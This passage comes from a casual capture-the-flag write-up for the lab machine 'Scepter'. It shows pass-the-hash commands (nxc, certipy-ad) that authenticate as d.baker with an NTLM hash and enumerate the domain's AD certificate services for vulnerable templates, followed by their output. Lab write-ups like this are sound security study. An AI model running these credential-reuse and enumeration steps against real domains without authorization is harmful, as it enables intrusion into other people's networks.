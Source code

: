 okey we have to go h.brown for some how. after we change password of a.carter what we can do lets check???

![alt text](../assets/images/scepter6.png)

Okeys its seems like loop but its not cause i will show u right now. Lets first check **ADCS** with d.baker and u will see

```bash
➜  scepter faketime "$(ntpdate -q authority.htb | cut -d ' ' -f 1,2)" nxc ldap DC01.scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce -M adcs
LDAP        10.10.11.65     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.10.11.65     389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
ADCS        10.10.11.65     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.65     389    DC01             Found PKI Enrollment Server: dc01.scepter.htb
ADCS        10.10.11.65     389    DC01             Found CN: scepter-DC01-CA
```

and yeah off course off course

```bash
➜  scepter certipy-ad find -u d.baker -hashes :18b5fb0d99e7a475316213c15b6f22ce -target scepter.htb -text -stdout -vulnerable -dc-ip 10.10.11.65
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 20 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'scepter-DC01-CA'
[*] Checking web enrollment for CA 'scepter-DC01-CA' @ 'dc01.scepter.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
```